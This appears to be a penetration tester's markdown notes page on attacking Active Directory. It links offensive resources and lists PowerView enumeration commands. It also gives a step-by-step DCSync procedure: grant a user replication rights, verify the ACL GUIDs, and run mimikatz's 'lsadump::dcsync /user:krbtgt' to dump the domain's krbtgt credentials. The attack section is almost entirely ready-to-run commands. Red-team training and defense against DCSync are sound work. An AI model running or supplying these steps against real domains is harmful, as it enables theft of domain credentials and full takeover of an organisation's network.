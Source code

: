# Resources

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/active-directory-enumeration-with-powerview  

https://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/

https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/

### [PowerView.ps1]

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

```
get-aduser <username>
Get-NetDomain
```

### [Dumping credentials from the domain controller with DCSync]

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync


1. Import the module
```
import-module .\PowerView.ps1
```

2. Add DCSync rights to user
```
Add-ObjectACL PrincipalIdentity user -Rights DCSync
```

3. Import Active Directory
```
Import-Module ActiveDirectory
```

4. Retrieve the permissions for user
```
(Get-Acl "ad:\dc=DOMAIN,dc=COM").Access | ? {$_.IdentityReference -match 'user' -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

5. Use mimikatz to dump credentials
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md

```
lsadump::dcsync /user:krbtgt
```
